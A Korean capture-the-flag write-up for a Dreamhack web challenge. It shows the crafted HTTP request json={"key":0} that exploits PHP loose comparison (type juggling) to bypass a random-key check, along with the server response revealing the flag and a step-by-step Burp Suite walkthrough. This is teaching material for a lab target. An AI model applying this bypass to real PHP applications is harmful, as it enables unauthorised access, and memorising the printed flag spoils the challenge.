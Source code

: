 #web-hacking
# Payload

```Request
POST /index.php HTTP/1.1
Host: host3.dreamhack.games:21460
Content-Length: 22
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: ko-KR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://host3.dreamhack.games:21460
Referer: http://host3.dreamhack.games:21460/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

json=%7B%22key%22:0%7D
```

```Response
HTTP/1.1 200 OK
Date: Mon, 15 Jul 2024 10:41:00 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 67
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"code":true,"flag":"DH{c857ca841295d6df5f83186e647e3ef1f2a1530c}"}
```
# 검색 키워드
- PHP type comparison tables
# 해설
## 배경지식
- php에서 비교 연산자 중
  - `==` 는 느슨한 비교를 의미한다.
  - `===`는 엄격한 비교를 의미한다. 타입까지 같은지 구별한다.
## 코드 분석
- 9번째 줄에서 POST 방식으로 JSON을 입력을 받아 decode 한 후, $json 변수에 저장한다.
- 10번째 줄에서 $key를 gen_key() 함수를 통해 랜덤하게 생성한다.
  - 19줄 function gen_key() 함수
    - $key 변수를 "welcome to wargame.kr!_" 을 접두사로 붙인 랜덤한 문자열 id를 생성한다.
    - 이 값은 현재의 시간 값을 기반으로 id를 생성하기 때문에, 웬만해서는 이 값을 알기 힘들다.
- 11번째 줄에서 $json의 하위 속성 key와 랜덤하게 생성한 $key 변수를 비교한다.
  - 여기에서 비교 연산자로 느슨한 비교를 하기 때문에, type confusing을 일으켜 $key에 저장된 값을 몰라도 결과를 True로 반환되게 해 볼 수 있다.
  - 임의의 문자열과 0 자체를 비교시킬 때, php 8.0 이하에서는 true가 반환되므로, POST로 넘어가는 값을 0으로 변경시켜 보자.
## 익스플로잇
- Burp Suite를 켠다.
- 아무 값이나 입력한 후, check 버튼을 눌러 제출한다.
- json에 넘어가는 값은 특수문자가 인코딩된 값이다.
  - 인코딩 된 값을 cyberchef의 URL Decode를 이용하여 원래의 값이 어떻게 되어 있는지 볼 수 있다.![alt text](image-1.png)
- 입력한 문자열이 "", 큰따옴표로 감싸져 있는데, 이렇게 넘어가게 되면 어떠한 값을 입력해도 문자열로 타입이 변환된다.
- 따라서, 따옴표가 없는 0이 넘어가도록 값을 바꿔준다.![alt text](image-2.png)
- 이후 변조된 요청을 Send하면 Flag가 포함된 응답을 받을 수 있다.![alt text](image.png)

# 참조 링크
- [https://www.php.net/manual/en/types.comparisons.php](https://www.php.net/manual/en/types.comparisons.php)
- [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)
